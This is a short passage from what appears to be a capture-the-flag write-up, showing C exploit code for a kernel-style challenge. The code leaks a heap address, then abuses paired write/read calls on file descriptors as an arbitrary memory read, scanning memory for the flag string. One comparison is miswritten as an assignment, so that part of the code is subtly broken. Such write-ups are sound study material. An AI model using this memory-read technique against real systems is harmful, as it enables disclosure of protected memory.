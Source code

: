 ```c
    uint64_t* p_buf = (uint64_t*)buf;
    uint64_t heap_leak = p_buf[0x2];
    info("heap_leak: %p \n", heap_leak);

    uint64_t read_addr = heap_leak - 0xa00000;

    memset(buf, 0x42, 0x10);
    p_buf[2] = heap_leak;
    p_buf[2] = read_addr;
    ret = write(fd2, buf, 0x60);

    info("reading from : %p \n", read_addr);

    while(true) {
        memset(buf, 0x42, 0x10);
        p_buf[2] = read_addr;
        ret = write(fd2, buf, 0x60);

        ret = read(fd3, buf, sizeof(buf));
        for (int i = 0; i < sizeof(buf); i++) {
            if (buf[i] = 0x63 && buf[i+1] == 0x6f && buf[i+2] == 0x72 && buf[i+3] == 0x63
                && buf[i+4] == 0x74) {
                char* flag = &buf[i];
                info("flag found :) %s ", flag);
                print_hex8(&buf[i], 0x20);
                return 0;
            }
        }
        read_addr += sizeof(buf);
    }

    info("flag not found :( \n");

    WAIT();
}
```

<h2 id="smm-diary-sec">smm-diary</h2>